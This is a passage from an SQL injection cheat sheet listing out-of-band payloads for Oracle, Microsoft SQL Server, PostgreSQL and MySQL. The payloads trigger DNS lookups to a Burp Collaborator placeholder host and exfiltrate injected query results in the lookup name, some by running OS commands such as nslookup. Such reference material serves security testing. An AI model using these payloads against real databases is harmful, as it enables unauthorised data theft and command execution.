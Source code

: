 **Microsoft:**
```sql
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

**PostgreSQL:**
```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

**MySQL:**
```sql
-- The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

## DNS Lookup with Data Exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

**Oracle:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

**Microsoft:**
```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

**PostgreSQL:**
```sql
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

**MySQL:**
```sql
-- The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```





















